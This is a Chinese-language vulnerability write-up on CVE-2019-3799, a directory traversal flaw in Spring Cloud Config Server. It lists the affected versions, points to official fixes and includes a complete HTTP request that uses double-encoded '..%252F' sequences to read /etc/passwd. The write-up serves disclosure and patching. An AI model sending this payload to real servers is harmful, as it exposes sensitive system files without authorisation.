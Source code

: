 # 

# Spring Cloud Config 目录遍历漏洞 CVE-2019-3799

## 漏洞描述

由于 spring-cloud-config-server 模块未对传入路径进行安全限制，攻击者可以利用多个 `..%252f` 进行目录遍历，查看服务器其他路径的敏感文件，造成敏感信息泄露。

## 漏洞影响

```
Spring Cloud Config 2.1.0 to 2.1.1
Spring Cloud Config 2.0.0 to 2.0.3
Spring Cloud Config 1.4.0 to 1.4.5
```

## 漏洞复现

```
GET /foo/default/master/..%252F..%252F..%252F..%252Fetc%252fpasswd HTTP/1.1
Host: your-ip:8888
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

## 漏洞修复

Spring 官方最新版本已经对 Spring Cloud Config 目录遍历漏洞进行了修复，下载地址：https://github.com/spring-cloud/spring-cloud-config/releases
